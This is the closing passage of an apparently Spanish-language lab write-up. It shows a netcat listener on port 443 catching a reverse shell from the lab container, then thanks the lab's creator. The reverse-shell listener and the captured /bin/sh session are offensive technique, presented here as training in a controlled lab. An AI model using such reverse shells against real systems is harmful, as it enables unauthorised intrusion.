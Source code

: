 Si lanzamos esa petición y nos ponemos a la escucha con netcat podemos ver como recibimos una shell.

```bash
nc -lvvp 443    
listening on [any] 443 ...
connect to [172.17.0.1] from whp-socially [172.18.0.3] 40818
/bin/sh: can't access tty; job control turned off
/app # 
```

Ya hemos acabado el laboratorio. Ha estado muy chulo, muchas gracias a Takito por crearlo. Espero que os haya servido!























